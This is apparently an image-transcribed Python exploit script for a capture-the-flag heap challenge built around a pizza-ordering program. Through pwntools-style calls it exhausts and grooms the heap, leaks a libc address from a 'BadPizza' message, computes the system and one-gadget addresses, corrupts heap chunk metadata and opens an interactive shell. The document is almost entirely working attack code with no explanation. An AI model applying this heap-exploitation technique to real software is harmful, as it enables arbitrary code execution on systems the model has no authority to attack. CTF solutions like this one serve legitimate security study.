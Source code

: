 ```python

# exaust heap
leave()
new('D')
order(1, [2], [['\xf0\x90\xf0\x9f', '\x8d\x8d']])
leave()
for i in range(9):
    new(chr(0x45+i))
    order(1, [1], [[tomato]])
    leave()

new('N')
order(1, [2], [['\xf0\x90\xf0\x9f', '\x8d\x8d']])
leave()

new('O'*0x30)
n = 4
order(1, [n], [['a'*16]*n])
leave()

login('M')
cook('a'*290)
leave()

login('N')
cook('a')
#raw_input("@3")
please('C'*24+flat(
    0x91,
    heap+0x132c8, 0x10,
    0x10, 0,
    heap+0x132c8,
)+'\x10')

login('O'*0x30)
cook('a')
x = r.recvuntil('USER MENU')
xx = re.findall('BadPizza: (.*)aaaaaaaaaaaaaaaaaaaaa', x)[0][:6]
libc = u64(xx.ljust(8, '\x00'))-0x3c4b78
print 'libc:', hex(libc)
system = libc+0x45390
magic = libc+0xf1147
leave()

login('D')
cook('a')
#raw_input("@2")
please(flat(
    [0]*3, 0x21,
    heap+0x138f0, 0,
    0, 0x41,
    heap+0x138f0+0x10, heap+0x13930,
    magic,
))
login('O'*0x30)
admire()

r.interactive()

```

